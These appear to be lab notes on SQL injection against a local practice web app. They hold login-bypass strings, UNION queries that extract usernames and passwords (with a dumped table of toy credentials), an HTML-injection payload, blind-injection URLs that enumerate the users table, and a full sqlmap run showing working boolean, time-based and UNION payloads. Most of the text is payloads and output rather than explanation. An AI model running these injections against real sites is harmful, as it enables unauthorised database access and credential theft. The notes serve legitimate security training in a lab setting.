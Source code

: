 ### login1.php

```sql
admin' -- 
```

### login2.php

```sql
admin') -- 
```

### searchproductz.php

```sql
b%' ORDER BY 5 -- //
```

```sql
' UNION SELECT 1,2,3,4,5 -- //
```

```sql
' UNION SELECT null, id, username, password, fname FROM users -- //
```

| **Name**  | **Passwords** |
|-----------|---------------|
| admin     | admin         |
| bobby     | password      |
| ramesh    | troll         |
| suresh    | troll         |
| alice     | alice1        |
| voldemort | horcrux       |
| frodo     | frodo         |
| hodor     | hodor         |
| rambo     | rhombus       |

```
' UNION SELECT 1,'<img src="http://address"><img>',3,4,5 -- //
```

```
<img src="http://address"><img>
```

The previous code is a code snippet  that represents an image on html where the source is at the address http://address, this is used with SQLi to inflict html code injection on the website.

### SQL Second order attacks

```
' or 1 in (SELECT @@version) -- //`
```

### Blind Injection

The page gives us information about a user by giving the params on the url, for example:

```
http://127.0.0.1:8000/blindsqli.php?user=bob
```

We can then take advantage of this and try to check if the id column exists in the database 

```
http://127.0.0.1:8000/blindsqli.php?user=bob%27%20AND%20SUBSTRING((select%20id%20from%20users%20LIMIT%201),%201,%201)%3E0%20%20--%20//
```

We can also try to get the number of users the DB has by itereating the var variable and see when does the DB respond with true (give us a result)

```
bob' AND (SELECT COUNT(*) FROM users) = <var> -- //
```

```
http://127.0.0.1:8000/blindsqli.php?user=bob' AND (SELECT COUNT(*) FROM users) = 12 -- //
```

or (url encoded)

```
http://127.0.0.1:8000/blindsqli.php?user=bob%27%20AND%20(SELECT%20COUNT(*)%20FROM%20users)%20=%2012%20--%20//
```

We can also try to check if there are at least one user with 'a' at the beggining of the username by doing the following:

```
http://127.0.0.1:8000/blindsqli.php?user=bob' AND (SELECT COUNT(*) FROM users WHERE username LIKE 'a%') >= 1 -- //
```

or (url encoded)

```
http://127.0.0.1:8000/blindsqli.php?user=bob%27%20AND%20(SELECT%20COUNT(*)%20FROM%20users%20WHERE%20username%20LIKE%20%27a%%27)%20%3E=%201%20--%20//
```

### sqlmap

Automated exploitation with the tool, sqlmap:

```bash
user@vm:~$ sqlmap -u http://localhost:8000/blindsqli.php?user=bob
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:42:39 /2021-10-23/

[13:42:40] [INFO] testing connection to the target URL
got a 302 redirect to 'http://localhost:8000/login1.php?msg=2'. Do you want to follow? [Y/n] n
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=d0a22cee3a4...cdcbdf7afd'). Do you want to use those [Y/n] Y
[13:42:45] [INFO] testing if the target URL content is stable
[13:42:45] [WARNING] GET parameter 'user' does not appear to be dynamic
[13:42:45] [WARNING] heuristic (basic) test shows that GET parameter 'user' might not be injectable
[13:42:45] [INFO] testing for SQL injection on GET parameter 'user'
[13:42:45] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:42:45] [INFO] GET parameter 'user' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[13:42:45] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[13:43:00] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[13:43:00] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[13:43:00] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[13:43:00] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[13:43:00] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[13:43:00] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[13:43:00] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:43:00] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:43:00] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[13:43:00] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[13:43:00] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[13:43:00] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[13:43:00] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:43:00] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[13:43:00] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[13:43:00] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[13:43:00] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[13:43:00] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[13:43:00] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[13:43:00] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[13:43:00] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[13:43:00] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[13:43:00] [INFO] testing 'Generic inline queries'
[13:43:00] [INFO] testing 'MySQL inline queries'
[13:43:00] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[13:43:00] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[13:43:00] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[13:43:00] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[13:43:00] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[13:43:00] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[13:43:00] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[13:43:20] [INFO] GET parameter 'user' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[13:43:20] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:43:20] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[13:43:20] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[13:43:20] [INFO] target URL appears to have 5 columns in query
[13:43:20] [INFO] GET parameter 'user' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
N
sqlmap identified the following injection point(s) with a total of 71 HTTP(s) requests:
---
Parameter: user (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: user=bob' AND 8402=8402 AND 'wkrA'='wkrA

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=bob' AND (SELECT 1436 FROM (SELECT(SLEEP(5)))EKcx) AND 'tGOc'='tGOc

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: user=-3576' UNION ALL SELECT NULL,CONCAT(0x71707a6a71,0x51586f494757775a685049685841427a79497155666842714c4377714a624971566c6c43714b4351,0x7176787871),NULL,NULL,NULL-- -
---
[13:43:41] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[13:43:41] [INFO] fetched data logged to text files under '/home/user/.sqlmap/output/localhost'
[13:43:41] [WARNING] you haven't updated sqlmap for more than 568 days!!!

[*] ending @ 13:43:41 /2021-10-23/

user@vm:~$
```
